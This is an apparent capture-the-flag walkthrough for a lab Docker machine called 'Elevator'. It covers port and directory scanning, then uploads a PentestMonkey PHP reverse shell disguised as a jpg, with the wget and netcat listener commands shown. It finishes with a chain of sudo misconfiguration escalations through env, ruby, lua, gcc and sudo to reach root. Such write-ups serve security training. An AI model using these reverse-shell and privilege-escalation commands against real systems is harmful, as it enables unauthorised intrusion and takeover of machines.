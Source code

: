# Elevator Machine

**Level:** Easy

**Author:** [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

------------------
## Scanning & Enumeration 

We perform a general scan with **nmap** on the victim machine's IP to identify the open ports. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Next, we use **nmap** default scripts to gather more information about the discovered ports:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
```

We access the website to inspect its content:

![image](https://github.com/user-attachments/assets/638d5eea-f884-48ff-a8a7-81d2d60049f3)

![image](https://github.com/user-attachments/assets/a4b792c1-8d57-4eb1-b3a4-6dac127a1c68)

![image](https://github.com/user-attachments/assets/09a22ca9-37fc-497b-82bc-6aa3b6855238)

After reviewing the page code and interacting with it, we found relevant information such as usernames: **daphne**, **velma**, **scooby**, **shaggy**

We perform **fuzzing** using **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -x html,php,txt -s 200,301 -b ''
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 5647]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
```

We identified the **javascript** and **themes** directories. After reviewing them, we encountered an unauthorized error and performed further **fuzzing**:

```shell
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/common-and-spanish.txt -t 20 -x html,php,txt -b '' -s 200,301
---------------------------------------------------------------------------------
/archivo.html         (Status: 200) [Size: 3380]
/upload.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
```

We discovered the **archivo.html** and **upload.php** files and the **uploads** directory.

--------------
## Explotation

On reviewing the **archivo.html** page, we realized the form allows **jpg** uploads:

![image](https://github.com/user-attachments/assets/55b5577e-1995-4d60-97eb-15fe5b20ac0f)

We prepare the [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) and save it as a **jpg** file. 

Note that we set the **172.17.0.1** as the **IP** and **4444** as the **PORT** for the listener.

```shell
wget -O reverse.jpg 'https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash'
Saving to: ‘reverse.jpg’
reverse.jpg [ <=> ]   2.53K  --.-KB/s    in 0s      
2024-12-26 21:09:41 (5.82 MB/s) - ‘reverse.jpg’ saved [2590]
```
![image](https://github.com/user-attachments/assets/1872f317-00b9-48e5-ba2c-9710558af290)

![image](https://github.com/user-attachments/assets/7b56e3c0-1b5c-43c2-87eb-4d40213b32b8)

We start a **listener** for the reverse shell using **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Next, we execute the **reverse shell** by uploading the **jpg** file through the **upload.php** link, gaining a shell on the victim's machine:

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43592
Linux 36ae1fa1a512 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 GNU/Linux
 02:37:38 up  6:20,  0 user,  load average: 0.10, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@36ae1fa1a512:/$ 
```
------------------------------
### TTY configuration

We configure the **TTY** for comfortable operation on the console:

```shell
script /dev/null -c bash 
```
After pressing **Ctrl  +  Z**, execute:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

Adjust **rows** and **columns** to match the attacker's screen dimensions:

```shell
stty size
```

Now you can use **Ctrl+L** to clear the screen and **Ctrl+C** as needed.


------------------------------
## Privileges escalation

We use **sudo -l** to check if we can execute anything as **root**:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 36ae1fa1a512:
    (daphne) NOPASSWD: /usr/bin/env
```

We can run **env** as the **daphne** user using [GTFOBins for env](https://gtfobins.github.io/gtfobins/env/#sudo)

```shell
sudo -u daphne env /bin/bash
```

Repeat the **sudo -l** command to escalate privileges step by step until achieving root access:

```shell
sudo -l
------------------------------------------------
User daphne may run the following commands on 36ae1fa1a512:
    (vilma) NOPASSWD: /usr/bin/ash
```


```shell
sudo -u vilma ash
```

```shell
sudo -l
------------------------------------------------
User vilma may run the following commands on 36ae1fa1a512:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

[GTFOBins for ruby](https://gtfobins.github.io/gtfobins/ruby/#sudo)

```shell
sudo -u shaggy ruby -e 'exec "/bin/bash"'
```

```shell
sudo -l
------------------------------------------------
User shaggy may run the following commands on 36ae1fa1a512:
    (fred) NOPASSWD: /usr/bin/lua
```

[GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo)

```shell
sudo -u fred lua -e 'os.execute("/bin/bash")'
```

```shell
sudo -l
------------------------------------------------
User fred may run the following commands on 36ae1fa1a512:
    (scooby) NOPASSWD: /usr/bin/gcc
```

[GTFOBins for gcc](https://gtfobins.github.io/gtfobins/gcc/#sudo)

```shell
sudo -u scooby gcc -wrapper /bin/bash,-s .
```

```shell
sudo -l
------------------------------------------------
User scooby may run the following commands on 36ae1fa1a512:
    (root) NOPASSWD: /usr/bin/sudo
```

[GTFOBins for sudo](https://gtfobins.github.io/gtfobins/sudo/#sudo)

```shell
sudo sudo /bin/bash
```

Finally, we gain root access:

```shell
whoami
----------------
root
```

